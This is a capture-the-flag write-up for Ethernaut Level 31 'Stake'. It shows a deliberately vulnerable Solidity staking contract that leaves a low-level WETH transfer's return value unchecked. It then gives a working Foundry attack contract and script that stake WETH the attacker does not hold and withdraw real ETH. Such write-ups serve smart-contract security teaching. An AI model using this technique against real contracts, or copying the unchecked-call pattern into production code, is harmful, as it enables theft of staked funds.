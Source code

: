 # Level 31 - Stake ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/31" %}

### Level Setup

{% hint style="info" %}
Stake is safe for staking native ETH and ERC20 WETH, considering the same 1:1 value of the tokens. Can you drain the contract?

To complete this level, the contract state must meet the following conditions:

* The `Stake` contract's ETH balance has to be greater than 0.
* `totalStaked` must be greater than the `Stake` contract's ETH balance.
* You must be a staker.
* Your staked balance must be 0.

Things that might be useful:

* [ERC-20](https://github.com/ethereum/ercs/blob/master/ERCS/erc-20.md) specification.
* [OpenZeppelin contracts](https://github.com/OpenZeppelin/openzeppelin-contracts)
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Stake.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Stake {

    uint256 public totalStaked;
    mapping(address => uint256) public UserStake;
    mapping(address => bool) public Stakers;
    address public WETH;

    constructor(address _weth) payable{
        totalStaked += msg.value;
        WETH = _weth;
    }

    function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
        Stakers[msg.sender] = true;
        return transfered;
    }

    function Unstake(uint256 amount) public returns (bool){
        require(UserStake[msg.sender] >= amount,"Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value : amount}("");
        return success;
    }
    function bytesToUint(bytes memory data) internal pure returns (uint256) {
        require(data.length >= 32, "Data length must be at least 32 bytes");
        uint256 result;
        assembly {
            result := mload(add(data, 0x20))
        }
        return result;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-31

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-31

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/51c13556556d7786c3d3aae552a8d9fa18b32d81/src/Level31.sol" %}

{% code title="src/Level31.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                        LEVEL 31 - STAKE                      │
// ================================================================
interface IStake {
    function StakeETH() external payable;
}

contract AttackContract {
    IStake private immutable stake;

    constructor(address _stakeContract) payable {
        stake = IStake(_stakeContract);
    }

    function attack() external payable {
        // Become a staker with 0.001 ETH + 2 wei (1 will be left behind)
        stake.StakeETH{value: msg.value}();
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/51c13556556d7786c3d3aae552a8d9fa18b32d81/script/Level31.s.sol" %}

{% code title="script/Level31.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "src/Level31.sol";

// ================================================================
// │                        LEVEL 31 - STAKE                      │
// ================================================================
interface IWETH {
    function approve(address spender, uint256 amount) external returns (bool);
    function transfer(address recipient, uint256 amount) external returns (bool);
}

interface IStake {
    function WETH() external view returns (address);
    function totalStaked() external view returns (uint256);
    function StakeETH() external payable;
    function StakeWETH(uint256 amount) external returns (bool);
    function Unstake(uint256 amount) external returns (bool);
    function Stakers(address) external view returns (bool);
    function UserStake(address) external view returns (uint256);
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IStake stake = IStake(targetContractAddress);
        uint256 amount = 0.001 ether + 1 wei;
        IWETH weth = IWETH(stake.WETH());

        vm.startBroadcast();

        // Deploy the AttackContract contract and stake some ETH
        AttackContract attackContract = new AttackContract(address(stake));
        attackContract.attack{value: amount + 1 wei}();

        // Become a staker
        stake.StakeETH{value: amount}();

        // Approve the stake contract to use WETH
        weth.approve(address(stake), amount);

        // Stake WETH (that we don't have!)
        stake.StakeWETH(amount);

        // Unstake ETH + WETH (leave 1 wei in Stake contract)
        stake.Unstake(amount * 2);

        // 1. The Stake contract's ETH balance has to be greater than 0
        console.log("Stake contract ETH balance:", address(stake).balance);
        require(address(stake).balance > 0, "Stake balance == 0");

        // 2. totalStaked must be greater than the Stake contract's ETH balance
        console.log("Total staked:", stake.totalStaked());
        require(stake.totalStaked() > address(stake).balance, "Balance > Total staked");

        // 3. You must be a staker.
        console.log("You are a staker:", stake.Stakers(address(msg.sender)), address(msg.sender));
        require(stake.Stakers(address(msg.sender)), "You are not a staker");

        // 4. Your staked balance must be 0.
        console.log("Your staked balance:", stake.UserStake(address(msg.sender)));
        require(stake.UserStake(address(msg.sender)) == 0, "Your staked balance != 0");

        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Congratulations, you have cracked the `Stake` machine!

When performing low-level calls to external contracts, it is important to properly validate external call returns to determine whether the call reverted.

For more info, check out [EEA EthTrust \[S\] Check External Calls Return](https://entethalliance.github.io/eta-registry/security-levels-spec.html#req-1-check-return) requirement, and always use [SafeERC20](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol) when interacting with external ERC-20 tokens.
{% endhint %}

### Notes

{% embed url="https://blog.pedrojok.com/the-ethernaut-ctf-solutions-31-stake" %}
